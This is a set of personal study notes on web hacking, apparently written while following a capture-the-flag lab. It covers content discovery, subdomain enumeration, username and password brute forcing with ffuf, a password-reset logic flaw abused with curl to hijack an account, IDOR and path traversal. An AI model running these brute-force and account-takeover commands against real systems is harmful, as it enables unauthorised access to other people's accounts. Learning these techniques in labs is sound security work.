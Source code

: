 ```yaml
---
layout: default
title:  "Introduction-to-Web-Hacking"
date:   2022-04-13
---
```


### Introduction to Web Hacking

#### Content Discovery

- robots.txt:  which pages they are and aren't allowed to show on their search engine results or ban specific search engines from crawling the website
- favicon: might be a leftover from the framework, so to point out which framework the website is using
(https://wiki.owasp.org/index.php/OWASP_favicon_database)
- sitemap.xml: a list of every file the website owner wishes to be listed on a search engine
- HTTP header:  webserver software and possibly the programming/scripting language in use.
- Framework Stack: might be some common vulnerability for the framework
- OSINT:
  - Google Dork: site; inurl; filetype; intitle
  - Wappalyzer: identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors, etc
  - Wayback machine: https://archive.org/web
  - S3 buckets: storage service provided by Amazon AWS; http(s)://{name}.s3.amazonaws.com; using the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.
- Automated discovery: 
  - https://github.com/danielmiessler/SecLists
  - https://blog.sec-it.fr/en/2021/02/16/fuzz-dir-tools/
  - https://danielmiessler.com/study/ffuf/

#### Subdomain Enumeration

- OSINT - SSL/TLS Certificates: search "Certificate Transparency (CT) logs" 
  - http://crt.sh/
  - https://transparencyreport.google.com/https/certificates
- OSINT - search engine:
  - `-site:www.domain.com site:*.domain.com`
- DNS brute force: 
  - `dnsrecon -t brt -d domain.com`
  - `-d`: specify domain
  - `-t`: choose the type of enumeration
- OSINT - sublist3r: automate the above methods with python scripts
  - https://github.com/aboul3la/Sublist3r
- Brute force using namelist:
  - `user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.111.106 -fs {size} `
  - `-fs`: tell `ffuf`to ignore any results that are of the specific size
  - utilize Host Header

#### Authentication Bypass

- Username Enumeration
  - `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.143.33/customers/signup -mr "username already exists"`
  - `-w`: selects the file's location on the computer that contains the list of usernames that we're going to check exists
  - `-X`: specifies the request method, this will be a GET request by default, but it is a POST request in our example
  - `-d`: specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request
  - `-H`: used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data
  - `-u`: specifies the URL we are making the request to
  - `-mr`: the text on the page we are looking for to validate we've found a valid username
  - moreabout content-type: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST
- Username and password combination brute force
  - `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.143.33/customers/login -fc 200`
  - using multiple wordlists, so use W1 and W2 to distinguish and separated with comma
  - `-fc`: check for an HTTP status code other than 200
  - response code: 200 OK; 302 Found (one of the rediraction messages, meaning "URI of requested resource has been changed temporarily")
- Logical flaw:
  - the password reset email is sent using the data found in the PHP variable `$_REQUEST`
  - `curl 'http://10.10.66.106/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`
  - have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.
- Hashing and encoding of cookie:
  - hash cracker: https://crackstation.net/

#### IDOR

- IDOR: Insecure Direct Object Reference, a type of access control vulnerability and webserver receives user-supplied inputs
- Encoded IDs: decode -> tamper -> encode -> submit
  - https://www.base64decode.org/
- Hashed IDs: https://crackstation.net/
- location: may not always be in the address bar; could be content the browser load via AJAX request or referenced in JavaScript file

#### File Inclusion

- dot-dot-slash attack: take advantage of moving the directory one step up using the double dots `../`








